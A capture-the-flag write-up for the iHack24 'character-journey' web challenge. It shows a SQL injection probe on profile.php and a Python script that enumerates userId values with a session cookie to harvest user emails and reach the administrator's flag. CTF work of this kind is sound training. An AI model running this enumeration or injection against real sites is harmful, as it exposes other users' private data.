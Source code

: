 # Writeup
1. First, I created a new account.
```
hiccbiuabcia:nkcuahsuda1
```

```HTTP
POST /register.php HTTP/1.1

name=hiccbiuabcia&email=hiccbiuabcia%40hiccbiuabcia.com&password=nkcuahsuda1&confirm_password=nkcuahsuda1
```
2. Let's login. ![[Pasted image 20240727100923.png]]
3. This website is running PHP because it has a PHPSESSID.
4. When I press my account,
```
GET /profile.php?userId=96 HTTP/1.1

Host: character-journey.ihack24.capturextheflag.io
...
Cookie: PHPSESSID=125573dc92b0eed280d2bf7c4e716f8b

Connection: close
```
- Hmm, can I access other people's User id?
5. When I press Support, it GETS `/support.php`
6. When I press feedback, it redirects me to `/feedback.php` !
7. Ok, `profile.php` is vulnerable at the `userId` parameter.
```http
GET /profile.php?userId=2 HTTP/1.1
```
8. Ok, I believe it is vulnerable to SQLi
```http
GET /profile.php?userId=1';-- HTTP/1.1
```
9.  I tried all kinds of SQL injection techniques but cant seem to work.
10. Let's bruteforce it
```python
import requests

URL = 'http://character-journey.ihack24.capturextheflag.io/profile.php'
index = 0

s= requests.Session()

for index in range(100):
    re = s.get(
        URL,
        params={
            'userId' : f'{index}',
        },
        cookies= {'PHPSESSID':'125573dc92b0eed280d2bf7c4e716f8b'},
        proxies = {
            'http' : 'http://127.0.0.1:8080', # Specify HTTPS proxy and send it through a certain port
        },
        verify= False, # Trust Burpsuite's self signed CA certificate
    )
    # print(re.text)
    if(not re.text.__contains__('User not found')):
        target = re.text.split('<p>Email: ')[1].split('</p>')[0].strip()
        print(f'[{index}] {target}',flush=True)
        if re.text.__contains__('administrator@google.com'): 
            print('FOUND TARGET!',flush=True)
            break


```
Output:
```
...
[52] zDjkv@test.com
[53] administrator@google.com
FOUND TARGET!
```
- Alright, found the target!
11. Let's request the ID of the target.
```http
GET /profile.php?userId=53 HTTP/1.1
Host: character-journey.ihack24.capturextheflag.io

...

Cookie: PHPSESSID=125573dc92b0eed280d2bf7c4e716f8b
```
Output:
```
       <p>Name: ihack24{655b7b7ae4c62d726a568eff8914573e}</p>
```